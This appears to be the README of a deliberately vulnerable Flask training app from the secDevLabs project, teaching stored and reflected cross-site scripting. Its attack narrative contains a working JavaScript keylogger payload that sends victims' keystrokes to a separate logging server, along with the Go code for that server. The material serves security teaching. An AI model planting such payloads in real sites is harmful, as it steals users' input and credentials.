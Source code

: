 # Gossip World

<p align="center">
    <img src="images/banner.png"/><a href="README_PT_BR.md"><img height="24" title="Acessar conteúdo em Português" src="https://img.shields.io/badge/Acessar%20conte%C3%BAdo%20em-Portugu%C3%AAs-blue"/></a>
</p>

Gossip World is a simple Flask app that contains an example of multiple Injection (XSS) vulnerabilities and its main goal is to describe how a malicious user could exploit them on this purposefully vulnerable app.

## Index

- [Definition](#what-is-cross-site-scripting)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/gossip-world
```

```sh
make install
```

Then simply visit [localhost:10007][app] ! 😆

## Get to know the app 💄

To properly understand how this application works, you can follow these simple steps:

- Create a new user
- Try leaving a comment on a gossip
- Try creating your gossip!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### Note: This attack narrative works best in Mozilla Firefox.

### 👀

#### Non-sanitization of user input allows for cross-site scripting

After inspecting the application, it is possible to identify that some entries are not sanitized and can be executed on a web browser. It occurs on _search_, _comment_ and _post_ fields. The following images show this behavior when the following text is used as an input on these fields:

```
<script>alert(1)</script>
```

Searching for a post:
<img src="images/attack-1.png" align="center"/>
<img src="images/attack-2.png" align="center"/>

Adding a new comment to a post:
<img src="images/attack-3.png" align="center"/>
<img src="images/attack-4.png" align="center"/>

Adding a new post:
<img src="images/attack-5.png" align="center"/>
<img src="images/attack-6.png" align="center"/>

The missing input validation allows a malicious user to insert some scripts that will persist in the server and be executed on the victims' browser every time they access the routes that contain these scripts.

### 🔥

An attacker may abuse these flaws by generating a malicious JS code and sending it to other users. To demonstrate this, the following example will get all keyboard input from a user by persisting a malicious code in the server.

First, the following Golang API can be built (main.go) that logs all received requests:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```

To run this code simply type the following command in your terminal (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang):

```sh
go run main.go
```

Then, the attacker can insert a new post through the **/newgossip** route by using the following code in the text field:

```html
<script>
  var k = "";
  document.onkeypress = function (e) {
    e = e || window.event;
    k += e.key;
    var i = new Image();
    i.src = "http://localhost:1232/" + k;
  };
</script>
```

This code implements a keylogger to capture all keyboard input from users and send it to the API created beforehand.

   <img src="images/attack-7.png" align="center"/>

When a victim accesses the post, the browser will interpret the text between the script tag as code and will execute it secretly. The following image shows the victim typing letters into the page that has been "infected" by the malicious JS:

<img src="images/attack-8.png" align="center"/>

The attacker now gets all the input on the server log, as shown below:

<img src="images/attack-9.png" align="center"/>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Execute scripts through input fields

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Gossip+World%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
